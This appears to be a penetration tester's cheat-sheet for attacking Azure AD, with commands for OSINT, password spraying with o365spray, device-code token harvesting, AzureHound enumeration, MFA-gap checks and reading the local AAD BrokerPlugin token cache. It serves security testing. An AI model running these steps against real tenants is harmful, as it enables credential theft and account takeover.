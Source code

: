 # Azure AD

- [https://bhavsec.com/posts/intro-to-azure-pentesting/](https://bhavsec.com/posts/intro-to-azure-pentesting/)
- [https://sofblocks.github.io/azure-cloud-pentesting/](https://sofblocks.github.io/azure-cloud-pentesting/)
- [https://blog.xpnsec.com/azuread-connect-for-redteam/](https://blog.xpnsec.com/azuread-connect-for-redteam/)
- [[PDF] Dumping NTHashes from Azure AD (Dr Nestori Syynimaa, @DrAzureAD)](https://troopers.de/downloads/troopers23/TR23_DumpingNTHashesfromAzureAD.pdf)




## OSINT

- [https://aadinternals.com/post/just-looking/](https://aadinternals.com/post/just-looking/)
- [https://aadinternals.com/osint/](https://aadinternals.com/osint/)

OpenID configuration:

```
$ curl -s https://login.microsoftonline.com/<TENANT_ID>/v2.0/.well-known/openid-configuration | jq
```




## Password Spray

Using [o365spray](https://github.com/0xZDH/o365spray) (random user agents [here](https://iplogger.org/ru/useragents/)):

```
$ pipx install -f "git+https://github.com/0xZDH/o365spray.git"
$ o365spray --validate -d megacorp.cloud
$ o365spray --enum -d megacorp.cloud -u snovvcrash
$ o365spray --enum -d megacorp.cloud -U names.txt
$ o365spray --spray -d megacorp.cloud -U names.txt -p 'Passw0rd!' --sleep 5 --rate 1 --useragents ua.txt
```




## Enumeration



### Tools


#### ROADrecon

- [https://github.com/dirkjanm/ROADtools](https://github.com/dirkjanm/ROADtools?tab=readme-ov-file#using-roadrecon)

```
$ roadrecon auth --device-code
$ roadrecon gather
$ roadrecon gui
```

#### AzureHound

- [https://github.com/BloodHoundAD/AzureHound](https://github.com/BloodHoundAD/AzureHound/releases/latest)
- [https://bloodhound.readthedocs.io/en/latest/data-collection/azurehound.html](https://bloodhound.readthedocs.io/en/latest/data-collection/azurehound.html#dealing-with-multi-factor-auth-and-conditional-access-policies)

Get the `device_code`:

```powershell
$body = @{
    "client_id" = "1950a258-227b-4e31-a9cf-717495945fc2"
    "resource"  = "https://graph.microsoft.com"
}
$UserAgent = "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36"
$Headers = @{}
$Headers["User-Agent"] = $UserAgent
$authResponse = Invoke-RestMethod `
    -UseBasicParsing `
    -Method Post `
    -Uri "https://login.microsoftonline.com/common/oauth2/devicecode?api-version=1.0" `
    -Headers $Headers `
    -Body $body
$authResponse
```

Get the `refresh_token`:

```powershell
$body = @{
    "client_id"  = "1950a258-227b-4e31-a9cf-717495945fc2"
    "grant_type" = "urn:ietf:params:oauth:grant-type:device_code"
    "code"       = $authResponse.device_code
}
$tokens = Invoke-RestMethod `
    -UseBasicParsing `
    -Method Post `
    -Uri "https://login.microsoftonline.com/Common/oauth2/token?api-version=1.0" `
    -Headers $Headers `
    -Body $body
$tokens
```

Collect data providing the `refresh_token`:

```
$ eget -qs linux/amd64 "BloodHoundAD/AzureHound" --to ~/tools/BloodHound
$ ~/tools/BloodHound/azurehound -r "<REFRESH_TOKEN>" list --tenant megacorp.cloud --json -o azure_megacorp.cloud.json
```




## MFA Bypass

- [https://cloud.hacktricks.xyz/pentesting-cloud/azure-security/az-azuread/az-conditional-access-policies-mfa-bypass](https://cloud.hacktricks.xyz/pentesting-cloud/azure-security/az-azuread/az-conditional-access-policies-mfa-bypass#office365-client-apps)
- [https://www.pentestpartners.com/security-blog/bypassing-mfa-on-microsoft-azure-entra-id/](https://www.pentestpartners.com/security-blog/bypassing-mfa-on-microsoft-azure-entra-id/)

Check if MFA is forcefully enabled via [well-known client GUIDs](https://github.com/dirkjanm/ROADtools/blob/6e7ac2d1ea5805d2e9a1a14fe1bf2bd05b45b891/roadlib/roadtools/roadlib/constants.py#L14):

```
$ proxy roadrecon auth -u snovvcrash@megacorp.cloud -p 'Passw0rd!' -r https://outlook.office.com/ -c 1b730954-1685-4b74-9bfd-dac224a7b894 --tokens-stdout
```



### AAD.BrokerPlugin

- [https://habr.com/ru/articles/688426/](https://habr.com/ru/articles/688426/)

```
PS > ls C:\Users\<USERNAME>\AppData\Local\Packages\Microsoft.AAD.BrokerPlugin_cw5n1h2txyewy\LocalState\*
```
